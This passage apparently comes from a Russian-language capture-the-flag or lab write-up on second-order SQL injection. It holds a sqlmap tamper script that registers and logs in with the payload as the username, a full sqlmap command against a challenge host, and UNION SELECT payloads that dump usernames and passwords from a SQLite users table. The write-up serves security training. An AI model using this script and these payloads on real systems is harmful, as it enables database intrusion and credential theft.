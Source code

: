 ```commandline
def create_account(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/signup", data=data)

def login(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/login", data=data)
        sessid = s.cookies.get("session", None)
    return "session={}".format(sessid)


def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    create_account(payload)
    headers["Cookie"] = login(payload)
    return payload
```



Папка, в которой находится скрипт tamper, также должна иметь пустой файл __init__.py   , чтобы sqlmap мог его загрузить. Перед запуском sqlmap со скриптом tamper измените переменную address и password внутри скрипта. После этого можно будет воспользоваться уязвимостью с помощью следующей команды:

```commandline
sqlmap --tamper so-tamper.py --url http://10.10.1.134:5000/challenge4/signup  --data "username=admin&password=asd" 
--second-url http://10.10.1.134:5000/challenge4/notes  -p username --dbms sqlite --technique=U --no-cast

# --tamper so-tamper.py - The tamper script
# --url - The URL of the injection point, which is /signup in this case
# --data - The POST data from the registraion form to /signup. 
#   Password must be the same as the password in the tamper script
# --second-url http://10.10.1.134:5000/challenge4/notes - Visit this URL to check for results
# -p username - The parameter to inject to
# --dbms sqlite - To speed things up
# --technique=U - The technique to use. [U]nion-based
# --no-cast - Turn off payload casting mechanism
```

Выгрузка таблицы пользователей может быть сложной без отключения механизма приведения полезной нагрузки с помощью 
параметра --no-cast . Пример разницы между приведением и отсутствием приведения можно увидеть здесь: 

```commandline
-- With casting enabled:
admin' union all select min(cast(x'717a717071' as text)||coalesce(cast(sql as text),cast(x'20' as text)))||cast(x'716b786271' as text),null from sqlite_master 
where tbl_name=cast(x'7573657273' as text)-- daqo'
-- 7573657273 is 'users' in ascii

-- Without casting:
admin' union all select cast(x'717a6a7871' as text)||id||cast(x'6774697a7462' as text)||password||cast(x'6774697a7462' as text)||username||cast(x'7162706b71' as text),null 
from users-- ypfr'
```
